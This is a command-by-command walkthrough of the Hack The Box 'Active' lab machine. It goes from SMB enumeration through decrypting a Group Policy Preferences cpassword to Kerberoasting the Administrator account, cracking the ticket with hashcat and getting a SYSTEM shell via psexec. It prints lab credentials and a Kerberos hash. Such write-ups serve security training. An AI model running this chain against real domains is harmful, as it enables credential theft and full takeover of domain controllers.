

# Active

```bash
TARGET=10.10.10.100
```

```bash
$ nmap -p- --min-rate 10000 $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 18:03 PDT
Warning: 10.10.10.100 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.100
Host is up (0.093s latency).
Not shown: 39965 closed tcp ports (conn-refused), 25551 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49157/tcp open  unknown
49165/tcp open  unknown
49171/tcp open  unknown
```

```bash
$ netexec smb $TARGET -u '' -p '' --shares                                                    
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\: 
SMB         10.10.10.100    445    DC               [*] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON                        Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL                          Logon server share 
SMB         10.10.10.100    445    DC               Users
```

```bash
$ netexec smb $TARGET -u '' -p '' -M spider_plus
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\: 
SPIDER_PLUS 10.10.10.100    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.10.100    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.10.100    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.10.100    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.10.100    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.10.100    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.10.100    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.10.100    445    DC               [*] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON                        Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL                          Logon server share 
SMB         10.10.10.100    445    DC               Users                           
SPIDER_PLUS 10.10.10.100    445    DC               [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.10.100.json".
SPIDER_PLUS 10.10.10.100    445    DC               [*] SMB Shares:           7 (ADMIN$, C$, IPC$, NETLOGON, Replication, SYSVOL, Users)
SPIDER_PLUS 10.10.10.100    445    DC               [*] SMB Readable Shares:  1 (Replication)
SPIDER_PLUS 10.10.10.100    445    DC               [*] Total folders found:  22
SPIDER_PLUS 10.10.10.100    445    DC               [*] Total files found:    7
SPIDER_PLUS 10.10.10.100    445    DC               [*] File size average:    1.16 KB
SPIDER_PLUS 10.10.10.100    445    DC               [*] File size min:        22 B
SPIDER_PLUS 10.10.10.100    445    DC               [*] File size max:        3.63 KB
```

```bash
$ cat /tmp/nxc_spider_plus/10.10.10.100.json
{
    "Replication": {
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {},
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI": {},
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {},
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml": {},
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol": {},
        "active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI": {},
        "active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {}
    }
} 
```

```bash
$ netexec smb $TARGET -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\: 
SPIDER_PLUS 10.10.10.100    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.10.100    445    DC               [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.10.10.100    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.10.100    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.10.100    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.10.100    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.10.100    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.10.100    445    DC               [*] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON                        Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL                          Logon server share 
SMB         10.10.10.100    445    DC               Users                           
SPIDER_PLUS 10.10.10.100    445    DC               [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.10.100.json".
SPIDER_PLUS 10.10.10.100    445    DC               [*] SMB Shares:           7 (ADMIN$, C$, IPC$, NETLOGON, Replication, SYSVOL, Users)
SPIDER_PLUS 10.10.10.100    445    DC               [*] SMB Readable Shares:  1 (Replication)
SPIDER_PLUS 10.10.10.100    445    DC               [*] Total folders found:  22
SPIDER_PLUS 10.10.10.100    445    DC               [*] Total files found:    7
SPIDER_PLUS 10.10.10.100    445    DC               [*] File size average:    1.16 KB
SPIDER_PLUS 10.10.10.100    445    DC               [*] File size min:        22 B
SPIDER_PLUS 10.10.10.100    445    DC               [*] File size max:        3.63 KB
SPIDER_PLUS 10.10.10.100    445    DC               [*] File unique exts:     4 (.ini, .inf, .xml, .pol)
SPIDER_PLUS 10.10.10.100    445    DC               [*] Downloads successful: 7
SPIDER_PLUS 10.10.10.100    445    DC               [+] All files processed successfully.
```

```bash
$ cat /tmp/nxc_spider_plus/10.10.10.100/Replication/active.htb/Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
GPPstillStandingStrong2k18
```

```bash
$ netexec smb $TARGET -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

| Username | Password | Target |
|--|--|--|
| SVC_TGS | GPPstillStandingStrong2k18 | active.htb |

```bash
$ cat /etc/hosts | grep $TARGET
10.10.10.100    active.htb dc.active.htb
```

```bash
$ netexec ldap active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --users 
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
LDAP        10.10.10.100    389    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
LDAP        10.10.10.100    389    DC               [*] Total records returned: 4
LDAP        10.10.10.100    389    DC               -Username-                    -Last PW Set-       -BadPW- -Description-        
LDAP        10.10.10.100    389    DC               Administrator                 2018-07-18 19:06:40 0       Built-in account for administering the computer/domain
LDAP        10.10.10.100    389    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
LDAP        10.10.10.100    389    DC               krbtgt                        2018-07-18 18:50:36 0       Key Distribution Center Service Account
LDAP        10.10.10.100    389    DC               SVC_TGS                       2018-07-18 20:14:38 0
```

```bash
$ netexec --verbose ldap active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --bloodhound -ns $TARGET --collection All
[21:52:29] INFO     Socket info: host=10.10.10.100, hostname=active.htb, kerberos=False, ipv6=False, link-local   connection.py:104
                    ipv6=False                                                                                                     
           INFO     Connecting to ldap://10.10.10.100 with no baseDN                                                    ldap.py:167
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
LDAP        10.10.10.100    389    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
LDAP        10.10.10.100    389    DC               Resolved collection methods: localadmin, container, rdp, trusts, session, psremote, dcom, acl, group, objectprops
[21:52:31] INFO     Found AD domain: active.htb                                                                       domain.py:703
           INFO     Connecting to LDAP server: dc.active.htb                                                           domain.py:63
[21:52:35] INFO     Found 1 domains                                                                                   domain.py:314
           INFO     Found 1 domains in the forest                                                                     domain.py:353
[21:52:36] INFO     Found 1 computers                                                                                 domain.py:539
           INFO     Connecting to LDAP server: dc.active.htb                                                           domain.py:63
[21:52:38] INFO     Found 5 users                                                                               outputworker.py:147
[21:52:39] INFO     Found 41 groups                                                                             outputworker.py:147
           INFO     Found 2 gpos                                                                                outputworker.py:147
[21:52:40] INFO     Found 1 ous                                                                                 outputworker.py:147
[21:52:42] INFO     Found 19 containers                                                                         outputworker.py:147
[21:52:43] INFO     Found 0 trusts                                                                                   domains.py:154
           INFO     Starting computer enumeration with 10 workers                                                   computers.py:80
           INFO     Querying computer: DC.active.htb                                                               computers.py:290
LDAP        10.10.10.100    389    DC               Done in 00M 20S
LDAP        10.10.10.100    389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.10.10.100_2024-05-22_215231_bloodhound.zip
```



[NetExec - Kerberoasting](https://www.netexec.wiki/ldap-protocol/kerberoasting)

```bash
$ netexec ldap active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoasting kerberoasting.txt
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
LDAP        10.10.10.100    389    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
LDAP        10.10.10.100    389    DC               Bypassing disabled account krbtgt 
LDAP        10.10.10.100    389    DC               [*] Total of records returned 1
LDAP        10.10.10.100    389    DC               sAMAccountName: Administrator memberOf: CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb pwdLastSet: 2018-07-18 12:06:40.351723 lastLogon:2024-05-22 16:41:46.123756
LDAP        10.10.10.100    389    DC               $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$900104e82fb4ec6ae50593eeca762432$42356e87a06bd81bdb0c55270dc8fa81a9ca6c7e417f7f31b401d18f2ab1d0e5dfc9b3442fa154c645c03735fc34ebe0cf6221879c708f36541eafd1e3d5ab81d065f7d3fe174d4e4b702daa43e6e86718f44e93ada0c5ec33971764b396803e617160db0183b2e3f821db72ff77a2fa022743db0c6ea781df6b1444f8b83524ef7b518caa524a19b7f74110122363dc3a251ba246586c3a4c8748ece87cc103f8f73d18c28bae76c6e7ab4eec744cf7f3fad519bd5b1eaf38fdf1f69b310e6989aa07e2f2ee203cefea6de0776267f00ae38ba6f510d2e5c3df50503e0238182e23c5e0a0fb2d73f6105c97279f6f346a7f4e4144dc71088a3d3d5fc3f9cfc2c17ad4f598e79d5c9ca9a0a708eb3fab105f76b5e2cdfe7398874eb7541a765584e9cc0cc8df4e483abd05d970de59a6275c2e1da49e7ce61bcf567ec8a220ac85f5503af93acdb939a18ea15a05958e6a2b67f1751f27501c0625196cc078e4460aa7d639a85fa791e0be1848101e77dd2e4c1cfe69b67b9f678b26c84f282a8fefd099aa739f4718655f5ccd295d08bedf52a02c782e72898dec4c89366449d6ec6ad159c1bccd6cb901e260ad3f5bf2b56f2a284f0713bf83170be7c3c60eb0f0f1055dc7fce88eb323354ad52327c04dc63c26eab7a9e6f05f94f7df22ff45f2655ee75cbf8ee3b36706dcf4758806ef2c6fc2258924ba2d174fc0afadb1602cc50992944923fe6bd0fdca6258e146b4c0f8e6ab39f453fffd0b72dd936cdcdaa684dfe3e2af5206319fc10fc38b4a1edc5c2ef062cf808b56a39ddc062eab7f9cd69cc28a6ed514e4ca3b92e9e5b387c8858543ff886b3ee605915fb92701b4da55e9f93314c75b1d7b5e0a5ec66a31e7c95d2e4d00dbad5802d24bdd869205647a435736c5c5baee3056dd04e05a0c4e60881955d3cae1571898cc3f3d2d725a56034de3b99e62677756e9cbb607b7ec5e4fcbb56db2d210ffc6e08562462155f89f37942d8279e66715cf994897683bf0d80377a2e2369f790cccf7c9920a98026ce12d09dcce68dc7df89d1d47c82cbabebaf5d38b05bf81b57703fbf008495fa9dfa8b1a7d93d7b12ecaf6af748f44310c6aa1ef09fd2e0001fe74adc5c31473a40e8a39a9ac943d623e85cb0ca1dbbcf0da5ed50b54523ecc7e150f813e7e717e2fbcbf986fae5ab40ac1e0ec23b7929ecd7ac9ef79c47aa6846df9cedee5360087045281c861d8fcf065d2132af22f6811dc72196
```

```bash
$ hashcat -m13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$900104e82fb4ec6ae50593eeca...11dc72196:Ticketmaster1968
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Ad...c72196
...
```

```bash
$ netexec ldap active.htb -u 'active.htb\Administrator' -p 'Ticketmaster1968'                                      
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
LDAP        10.10.10.100    389    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```

| Username | Password | Target |
|--|--|--|
| SVC_TGS | GPPstillStandingStrong2k18 | active.htb |
| Administrator | Ticketmaster1968 | active.htb |

```bash
$ impacket-psexec Administrator:Ticketmaster1968@active.htb 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on active.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vUEYYwdt.exe
[*] Opening SVCManager on active.htb.....
[*] Creating service jbvy on active.htb.....
[*] Starting service jbvy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
